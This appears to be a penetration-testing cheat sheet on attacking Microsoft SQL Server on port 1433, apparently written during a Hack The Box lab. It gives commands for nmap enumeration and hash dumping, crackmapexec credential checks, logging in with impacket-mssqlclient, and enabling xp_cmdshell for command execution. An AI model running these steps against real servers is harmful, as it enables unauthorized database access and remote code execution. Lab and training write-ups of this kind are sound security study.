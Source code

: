 ```yaml
---
title: Port 1433 - MSSQL
draft: false
tags:
  - mssql
  - crackmapexec
  - impacket-mssqlclient
  - cme
---
```

## Enumeration

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Bruteforce

Check whether creds found is valid on MSSQL:
`
`crackmapexec mssql manager.htb -u Desktop/user.txt -p Desktop/user.txt --no-brute --continue-on-success`

## Interaction

Using **impacket-mssqlclient**, interact with the database:
`
`impacket-mssqlclient -port 1433 10.10.11.236/operator:operator@10.10.11.236 -window`


Below are example interaction:

```sql
SELECT name FROM master.dbo.sysdatabases;
USE master;
select table_name from information_schema.tables;
SELECT COLUMN_NAME, DATA_TYPE, CHARACTER_MAXIMUM_LENGTH, NUMERIC_PRECISION, NUMERIC_SCALE from information_schema.columns where table_name = 'spt_fallback_db';
```



  

## Command Execution

Try **xp_cmdshell** and **xp_dirtree**:
  

```sql
xp_dirtree
xp_cmdshell
EXEC xp_cmdshell
EXEC xp_dirtree
```



  If they are not enabled, try enabling them:

  

```sql
enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

  

### Example CME

If there's **IIS** running and **xp_dirtree** is enabled:



```sql
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```



On [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server), there's more detailed guide on pentesting MSSQL.
